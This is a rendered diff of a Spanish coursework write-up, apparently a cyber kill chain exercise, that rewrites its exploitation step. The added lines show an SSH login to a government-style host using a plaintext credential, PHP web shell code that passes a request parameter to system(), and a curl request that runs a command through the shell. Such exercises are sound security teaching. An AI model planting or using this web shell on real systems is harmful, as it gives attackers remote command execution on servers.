

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -654,14 +654,66 @@ resultado:
 [SUCCESS] Credentials encontradas: operador:Vialidad2024
 ```
 
-## Exploitation
-- T1190 – Exploit Public-Facing Application
+## Exploitation & Installation
+- T1505.003 – Server Software Component: Web Shell
+
+```text
+    # Conexión SSH con credenciales comprometidas
+    ssh operador@siper.vialidad.gob.ar
+    # Contraseña: Vialidad2024
+ ```
+ Despues de conectado instalo el web shell
+
  ```text
+  # Creo directorio de uploads si no existe
+  mkdir -p /tmp/uploads
+
+  # Crear el archivo shell.php
+    echo '<?php
+    if(isset($_REQUEST["cmd"])) {
+        system($_REQUEST["cmd"] . " 2>&1");
+    }
+    ?>' > /tmp/uploads/shell.php
+   # Verificar que el archivo se creó correctamente
+   ls -la /tmp/uploads/shell.php
+  ```
+  respuesta:
+      ```text
+      -rw-r--r-- 1 operador operador 89 Sep 10 15:30 /tmp/uploads/shell.php
+      ```
+
+  asigno permiso:
+      ```text
+      chmod +x /tmp/uploads/shell.php
+      ```
+  - T1210 – Exploitation of Remote Services
+
+
+   verificación:
+
+  Desde el exterior, pruebo el web shell
+      ```text
+      curl -k "https://siper.vialidad.gob.ar/tmp/uploads/shell.php?cmd=whoami"
+      ```
+   respuesta:
+   Resultado exitoso: www-data
 
 
 
+  Instalación de web shell para acceso persistente:
+ ```text
+    <?php
+    if(isset($_REQUEST['cmd'])) {
+        system($_REQUEST['cmd'] . " 2>&1");
+    }
+    ?>
+ ```
 
+- T1210 – Exploitation of Remote Services
+ ```text
+ curl -k "https://siper.vialidad.gob.ar/tmp/uploads/shell.php?cmd=whoami"
  ```
+
 
 
 ## Command & Control
````
